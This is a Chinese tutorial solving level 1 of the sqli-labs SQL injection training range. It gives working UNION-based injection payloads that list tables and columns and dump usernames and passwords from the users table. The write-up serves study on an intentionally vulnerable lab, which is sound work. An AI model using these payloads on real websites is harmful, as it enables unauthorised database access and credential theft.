



# 本篇文章是关与sal-labs靶场1-4的解题过程。其知识点与sql注入相关。
## 第一关

从题目可以得知本题是关于单引号注入的题目。
故我们可以进行初步尝试通过hackbar在url后面加上?id=1',然后查看页面。可以看出出现报错，这里说一下最前与最后两个引号是提示错误信息的，而我们可以明显看出来错误信息是1后面多了个'

ok,接着爆出它的显位为2与3，注意这里注释应该为--(注意有一个空格)，而url中空格会被编写为+，故我们用--+来注释。
接着我们尝试爆出它有几列，可以看出为3列。

接着继续进行爆出数据库名为security

然后尝试爆出表名?id=-1' union select 1,2,group_concat(table_name)from information_schema.tables where table_schema='security'--+

一般账户和密码都在users表中，所以我们尝试爆出users表的列名。(如果users表中没有的话我们再尝试爆出其他表的列名)
?id=-1' union select 1,2,group_concat(column_name)from information_schema.columns where table_name='users'--+

接下来就是获取账号和密码了，为了方便分清账号和密码中间用id隔开。
?id=-1' union select 1,2,group_concat(username,id,password)from users--+

